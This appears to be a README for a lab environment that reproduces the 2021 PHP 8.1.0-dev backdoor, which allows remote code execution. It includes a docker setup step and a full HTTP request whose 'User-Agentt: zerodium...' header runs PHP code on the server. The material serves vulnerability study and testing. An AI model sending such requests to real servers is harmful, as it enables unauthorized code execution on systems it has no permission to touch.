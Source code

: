 # PHP 8.1.0-dev User-Agentt Backdoor Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

PHP version 8.1.0-dev was implanted with a backdoor on March 28, 2021, but the backdoor was quickly discovered and removed. When this backdoor is present on a server, an attacker can execute arbitrary code by sending a **User-Agentt** header.

References:

- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a

## Vulnerable Environment

Start a PHP 8.1-dev server with the backdoor.

```
docker compose up -d
```

After the environment is started, the service runs at ``http://your-ip:8080``.

## Vulnerability Reproduce

Send the following request to execute the code `var_dump(233*233);`:

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close


```

![](1.png)
